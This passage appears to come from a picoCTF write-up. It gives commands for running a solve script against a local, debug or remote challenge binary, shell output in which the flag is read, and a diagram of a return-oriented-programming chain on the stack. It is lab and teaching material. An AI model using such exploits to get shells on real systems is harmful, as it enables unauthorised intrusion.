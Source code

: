 Execute solution script against local target in container:

```
$ python3 solve.py
<snip>
[+] Starting local process '/ctf/chall/vuln': pid 88
[*] Switching to interactive mode
$ cat chall/flag.txt
THIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAGTHIS_IS_THE_FLAG
```

Execute solution script and start GDB for debugging target locally in
container:

```
# Must start tmux session before script executes.
tmux

python3 solve.py GDB
```

Execute solution script against remote target (ensure that the instance is
running in the picoCTF dashboard and that the URL and port are updated in the
script):

```
python3 solve.py REMOTE
<snip>
$ cat flag.txt
```


[--- chain[2]: main puts call addr --]
[------ chain[1]: read_int addr -----]
[----- chain[0]: nop gadget addr ----]
[--- chain[2]: main puts call addr --] <-- rsp
[------ chain[1]: read_int addr -----] 
[----- chain[0]: nop gadget addr ----]